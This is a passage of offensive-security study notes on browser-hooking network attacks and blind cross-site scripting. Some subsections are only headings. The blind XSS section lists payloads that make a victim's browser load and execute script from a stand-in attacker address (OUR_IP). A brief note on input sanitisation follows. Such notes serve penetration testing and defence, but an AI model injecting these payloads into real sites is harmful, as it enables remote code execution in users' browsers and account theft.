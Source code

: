 ### 5. Network attacks

A way to enter within intranet networks is by passing through HTTP traffic that, despite other protocols, is usually allowed to pass by firewalls.

**1.** IP detection

The first step before putting your feet in a network is to retrieve as much network information as possible about the hooked browser. For instance by revealing its internal IP address and subnet.

>Traditionally, this required the use of external browser's pluggins such as Java JRE and some interaction from the victim: 
>- Installing **My Address Java Applet**:  Unsigned java applet that retrieves IP. 
>- Changing the java security settings enabling or reducing the security level).

Use of **https://net.ipcalf.com/** , that abuses WebRTC HTML5 feature.


**2.** Subnet detection

**3.** Ping Sweeping

### 6. Bypassing restrictions in frameset tag

See [https://www.doyler.net/security-not-included/frameset-xss](https://www.doyler.net/security-not-included/frameset-xss).


### 7. Blind XSS

A  Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Some payloads:

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
 

## Mitigations for cookie stealing

The most important aspect of preventing XSS vulnerabilities is proper input sanitization and validation on both the front and back end. In addition to that, other security measures can be taken to help prevent XSS attacks.
